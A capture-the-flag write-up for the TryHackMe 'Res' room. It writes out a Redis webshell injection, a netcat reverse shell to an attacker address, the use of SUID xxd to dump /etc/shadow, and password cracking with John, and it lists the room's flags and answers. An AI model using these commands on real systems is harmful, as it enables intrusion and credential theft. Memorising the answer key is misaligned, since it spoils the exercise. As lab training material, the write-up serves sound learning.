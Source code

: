 # Res Room (2025) — Write-up

**Author:** Daniel Demian  
**Room:** [Res (TryHackMe)](https://tryhackme.com/room/res) 
**Difficulty:** Easy 🟢 
**Time to Complete:** ~30 minutes

---

## Summary

A compact, beginner-friendly box that highlights standard Linux enumeration and basic privilege escalation techniques. The exercise focuses on service discovery (redis + HTTP), achieving remote code execution against Redis to obtain an initial shell, local enumeration to find credentials, and a simple file-based privilege escalation using an unexpected SUID binary (`xxd`). This write-up documents the steps taken, commands used, and final remediation notes.

---

## Quick TL;DR

- **Initial access:** Redis RCE (no authentication) and a PHP webshell.
    
- **User:** Switched to `vianka` after discovering/cracking a hashed password.
    
- **Privilege escalation:** Used SUID `xxd` to read `/etc/shadow`, cracked the hash with John, and obtained `root.txt`.

---

## Recon & Enumeration

**Nmap scan (full TCP, service/version detection):**

```bash
nmap -p- -sC -sV -T4 {TARGET_IP} -oA scans/full_tcp
```

**Representative output:**

```
Nmap 7.80 scan initiated Sat Oct  4 14:12:27 2025 as: nmap -oA /tmp/scans/scan -p- -sC -sV 10.10.153.213
mass_dns: warning: Unable to open /etc/resolv.conf. Try using --system-dns or specify valid servers with --dns-servers
mass_dns: warning: Unable to determine any DNS servers. Reverse DNS is disabled. Try using --system-dns or specify valid servers with --dns-servers
Nmap scan report for 10.10.153.213
Host is up (0.00027s latency).
Not shown: 65533 closed ports
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
6379/tcp open  redis   Redis key-value store 6.0.7
MAC Address: 02:08:F1:6B:28:D1 (Unknown)
```

**Quick answers (from enumeration):**

- How many ports are open? **2**
    
- DBMS installed? **Redis**
    
- Redis port? **6379**
    
- Redis version? **6.0.7**

---

## Initial Access — Redis RCE

Redis was exposed and allowed configuration writes. Using `redis-cli` we can write a PHP webshell into the webroot and trigger it via HTTP.

**Tools used:** `redis-tools` (for `redis-cli`), a web browser, and `nc` for a listener.

**Commands executed:**

```bash
# install client on attacker VM if needed
sudo apt update && sudo apt install -y redis-tools

# connect to redis on target
redis-cli -h {TARGET_IP}

# inside redis-cli
flushall
set pwn "<?php system($_REQUEST['cmd']); ?>"
config set dbfilename webshell.php
config set dir /var/www/html
save
```

After saving, the webshell is available at `http://{TARGET_IP}/webshell.php`.

**Get a reverse shell (example using netcat):**

1. Start listener on attacker:
    

```bash
nc -nlvp 1234
```

2. Trigger webshell from browser (replace `{ATTACKER_IP}` and port):
    

```
http://{TARGET_IP}/webshell.php?cmd=nc%20{ATTACKER_IP}%201234%20-e%20/bin/bash
```

3. Upgrade the shell on the target:
    

```bash
python3 -c 'import pty, os; pty.spawn("/bin/bash")'
# local: stty raw -echo; fg
export TERM=xterm-256color
reset
```

**Result:** read `user.txt`:

```bash
cat /home/vianka/user.txt
# thm{red1s_rce_w1thout_credent1als}
```

---

## Privilege Escalation — Reading /etc/shadow with `xxd`

`/etc/shadow` was not directly readable by the current account. Using the SUID `xxd` binary we can dump the hex of `/etc/shadow` and reconstruct it as a readable file.

**Pattern used (lab-only, defensive learning):**

```bash
LFILE=/etc/shadow
xxd "$LFILE" | xxd -r > /tmp/shadow
cat /tmp/shadow | sed -n '1,10p'
```

**Notes:**

- The reconstructed `/tmp/shadow` contained a hash for `vianka` starting with `$6$`, which indicates **sha512crypt**.
    
- Identify format quickly by the `$` prefix: `$6$`=sha512, `$5$`=sha256, `$1$`=md5, `$2y$`/`$2a$`=bcrypt.
    

**Transfer to attacker (one convenient option):**  
On the target (serve `/tmp`):

```bash
cd /tmp
python3 -m http.server 8000
```

On attacker:

```bash
wget http://{TARGET_IP}:8000/shadow
wget http://{TARGET_IP}:8000/passwd
```

**Merge and crack:**

```bash
unshadow passwd shadow > hashes
john --wordlist=/usr/share/wordlists/rockyou.txt --rules hashes
# output showed: beautiful1 (vianka)
john --show hashes
```

**Result:** cracked password for `vianka`: **beautiful1**

---

## Switching to `vianka` and final escalation

With the cracked password:

```bash
su - vianka
# enter password: beautiful1

# check sudo
sudo -l
# escalate if allowed
sudo su -
cat /root/root.txt
# thm{xxd_pr1v_escalat1on}
```

This completed the box: initial RCE on Redis → user flag → SUID `xxd` to read shadow → crack hash → switch to user → sudo to root.

---

## Final Thoughts & Lessons Learned

- **Service exposure matters:** an unauthenticated Redis instance led directly to RCE by writing a webshell to the document root. Never expose management services to untrusted networks.
    
- **Audit SUID binaries:** non-essential SUID programs (like `xxd`) are dangerous — remove the SUID bit unless strictly required.
    
- **Password hygiene & hashing:** even with `sha512crypt` and salt, weak passwords (e.g., `beautiful1`) are often cracked quickly with common wordlists. Enforce stronger passwords and consider additional protections (MFA).    

---

## Answers (quick list)

- How many ports are open?: **2**
    
- DBMS installed on the server?: **Redis**
    
- Redis port?: **6379**
    
- Redis version?: **6.0.7**
    
- Compromise machine & locate user.txt?: `thm{red1s_rce_w1thout_credent1als}`
    
- What is the local user account password?: `beautiful1`
    
- Escalate privileges & obtain root.txt?: `thm{xxd_pr1v_escalat1on}`
    

---

## Remediation Recommendations

1. Do not expose management services (Redis) directly to untrusted networks; require authentication and network access controls.
    
2. Remove SUID from unnecessary binaries: `chmod u-s /usr/bin/xxd` (or audit and restrict access).
    
3. Use strong password policies and enforce multi-factor authentication where possible.
    
4. Regularly scan for insecure service deployments and unexpected file permissions.
